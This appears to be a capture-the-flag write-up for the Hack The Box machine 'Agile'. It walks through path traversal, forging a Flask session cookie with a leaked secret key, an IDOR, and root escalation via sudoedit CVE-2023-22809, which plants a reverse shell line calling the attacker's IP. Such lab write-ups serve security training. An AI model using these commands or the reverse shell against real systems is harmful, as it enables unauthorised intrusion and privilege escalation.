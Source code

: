 # [Agile](https://app.hackthebox.com/machines/532)

## Overview

- Linux machine
- Medium

## ip

target: 10.129.74.18

attacker: 10.10.14.5

## Scan

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -Pn -v 10.129.74.18 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4bcee21d71f1aa26572212d5ba6f700 (ECDSA)
|_  256 65c1480d88cbb975a02ca5e6377e5106 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://superpass.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web vulnerability: path traversal => source code

endpoint: `/download`

poc:

```http
GET /download?fn=../etc/passwd HTTP/1.1

HTTP/1.1 200 OK

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

error message when set fn to not exist file name:

```http
GET /download?fn=../asdf HTTP/1.1

HTTP/1.1 500 INTERNAL SERVER ERROR
Server: nginx/1.18.0 (Ubuntu)

...
```

from error messages =>:

- python 3.10
- flask
- source: `/app/app/superpass/app.py`

i write a script to download all source code via path traversal start with `/app/app/superpass/app.py`: [script here](./leak_source.py)

=> [superpass source](./superpass/)

## Source code review: CWE-200 => corum account => user flag

secret key in [`app.py`](./superpass/app.py):

```python
app.config['SECRET_KEY'] = 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
```

use `flask-unsign` to access user_id 2 account

```bash
┌──(flask-unsign)─(kali㉿kali)-[~/Documents/learn-python/env]
└─$ flask-unsign --sign --cookie "{'_fresh': False, '_user_id': '2'}" --secret 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD' --legacy
eyJfZnJlc2giOmZhbHNlLCJfdXNlcl9pZCI6IjIifQ.ZAYgpQ.Yc23uzKwGITcEOVYov-OfH7TaWk
```

```http
GET /vault HTTP/1.1
Cookie: session=eyJfZnJlc2giOmZhbHNlLCJfdXNlcl9pZCI6IjIifQ.ZAYifw.T4FusYDXe_07KuxBjxxEMEw1zL4

HTTP/1.1 200 OK

...
    <td>agile</td>
    <td>corum</td>
    <td>5db7caa1d13cc37c9fc2</td>
...
```

ssh login:

```bash
└─$ ssh corum@10.129.74.18
corum@agile:~$ cat user.txt
2461cb94b04ee17a17dab1a87e0a1804
```

## Local testing app vulnerability: IDOR => edwards account

found another web server is running on port 5555:

- `ss -tulpn | grep LISTEN`

  ```bash
  corum@agile:~$ ss -tulpn | grep LISTEN
  tcp   LISTEN 0      5          127.0.0.1:54595      0.0.0.0:*          
  tcp   LISTEN 0      70         127.0.0.1:33060      0.0.0.0:*          
  tcp   LISTEN 0      10         127.0.0.1:41829      0.0.0.0:*          
  tcp   LISTEN 0      2048       127.0.0.1:5000       0.0.0.0:*          
  tcp   LISTEN 0      151        127.0.0.1:3306       0.0.0.0:*          
  tcp   LISTEN 0      511          0.0.0.0:80         0.0.0.0:*          
  tcp   LISTEN 0      2048       127.0.0.1:5555       0.0.0.0:*          
  tcp   LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*          
  tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
  tcp   LISTEN 0      5              [::1]:54595         [::]:*          
  tcp   LISTEN 0      128             [::]:22            [::]:*   
  ```

  ```bash
  curl http:127.0.0.1:5555

  => web page
  ```

local port forwarding to access web server from attacker machine:

```bash
└─$ ssh -L 2222:127.0.0.1:5555 corum@10.129.74.18

enter corum password
```

=> now we can access local web server from attacker machine at `127.0.0.1:2222`

Local web server vulnerabilities:

- no more path traversal
- but i found another vulnerablities: IDOR

```bash
GET /vault/row/1 HTTP/1.1
Host: localhost:2222

HTTP/1.1 200 OK

agile edwards d07867c6267dcb5df0af
```

## edwards account => privilege escalation: CVE-2023-22809 => root flag

```bash
edwards@agile:~$ sudo -l
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

sudoedit vulnerability: [sudo-CVE-2023-22809](./documents/sudo-CVE-2023-22809.pdf)

=> can read and edit any file that `dev_admin` can.

file `test_and_update.sh` will be run by root

```bash
edwards@agile:/app$ cat test_and_update.sh 
#!/bin/bash

# update prod with latest from testing constantly assuming tests are passing

echo "Starting test_and_update"
date

# if already running, exit
ps auxww | grep -v "grep" | grep -q "pytest" && exit

echo "Not already running. Starting..."

# start in dev folder
cd /app/app-testing

# system-wide source doesn't seem to happen in cron jobs
source /app/venv/bin/activate

# run tests, exit if failure
pytest -x 2>&1 >/dev/null || exit

# tests good, update prod (flask debug mode will load it instantly)
cp -r superpass /app/app/
echo "Complete!"
```

```bash
edwards@agile:/app$ ls -l /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Mar  7 02:36 /app/venv/bin/activate
```

use `CVE-2023-22809` to edit `/app/venv/bin/activate`:

```bash
edwards@agile:/app$ export EDITOR="vim -- /app/venv/bin/activate"
edwards@agile:/app$ sudo -u dev_admin sudoedit /app/config_test.json
```

=> vim open `/app/venv/bin/activate`, add

```bash
bash -i >& /dev/tcp/10.10.14.5/4242 0>&1
```

to the top of the file, start nc listening and wait:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.5] from superpass.htb [10.129.74.18] 50928
bash: cannot set terminal process group (46075): Inappropriate ioctl for device
bash: no job control in this shell
bash: connect: Connection refused
bash: /dev/tcp/10.10.14.5/4242: Connection refused
root@agile:~# cat /root/root.txt
cat /root/root.txt
91fbc35526e9013e0fd09dda2314cbbf
root@agile:~# 
```
